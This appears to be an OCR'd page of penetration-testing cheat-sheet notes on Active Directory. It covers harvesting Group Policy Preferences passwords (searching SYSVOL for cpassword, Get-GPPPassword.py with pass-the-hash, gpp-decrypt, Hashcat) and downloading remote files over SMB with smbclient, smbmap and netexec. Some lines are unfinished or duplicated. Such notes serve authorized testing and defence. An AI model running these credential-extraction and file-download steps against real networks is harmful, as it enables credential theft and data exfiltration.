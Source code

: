 # Unix Shell

## Impacket

```
$ Get-GPPPassword.py [<domain>/]<username>:"<password>"@<IP>

$ Get-GPPPassword.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

TODO: Convert it

Use the `dir` command to find the XML file.

```
C:\> dir /s Groups.xml

C:\> findstr /s cpassword %LOGONSERVER%\sysvol\*.xml
```

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

```
C:\> type C:\path\to\GPP_file.xml
```

## 01 - Samba Suite Utils

```
smb: \> get /path/to/remote/file
```

## 02 - Impacket

```
$ smbclient.py

$ smbclient.py
```

Retrieve text file.

```
# get path\to\remote\file
```

## 03 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "C$\path\to\remote\file"
```

## 04 - NetExec

```
$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /path/to/remote/file
```